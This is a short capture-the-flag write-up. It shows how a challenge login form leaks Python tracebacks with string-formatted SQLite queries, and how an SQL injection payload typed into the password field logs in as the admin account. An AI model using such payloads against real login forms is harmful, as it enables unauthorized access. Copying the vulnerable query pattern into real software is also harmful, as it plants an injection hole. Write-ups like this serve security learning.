 # Admin Attack

![](img/challenge3.png)

When entered I some broken SQL into the username field I got a traceback with a small part of the python source code and the SQL query:
```
Username: '
Password: test
```
```python
Traceback (most recent call last):
  File "/srv/raro/main.py", line 130, in index
    cur.execute("SELECT algo FROM users WHERE username='{}'".format(
sqlite3.OperationalError: unrecognized token: "'''"
```
It seems like there are different SQL queries being executed, as the first one only checks for the username.
This is pretty useful knowledge since I can't seem to inject SQL Queries when I enter `jimmyTehAdmin` as the username.
It looks like the first SQL query only checks the username and then decides on an algorithm to use for the password check.
```
Username: loginToGetFlag
Password: '
```
```python
Traceback (most recent call last):
  File "/srv/raro/main.py", line 139, in index
    cur.execute("SELECT * FROM users WHERE username='{}' AND password='{}'".format(
sqlite3.OperationalError: unrecognized token: "'''"
```
This is the password query with `loginToGetFlag` as the username. 
When I do the same but with `jimmyTehAdmin` as the username I don't get a traceback, which confirms that account gets handled differently.

But I can just enter another username and do the injection in the password field:
```
Username: loginToGetFlag
Password: ' OR username='jimmyTehAdmin';--
```

![](img/jimmyTehAdmin.png)
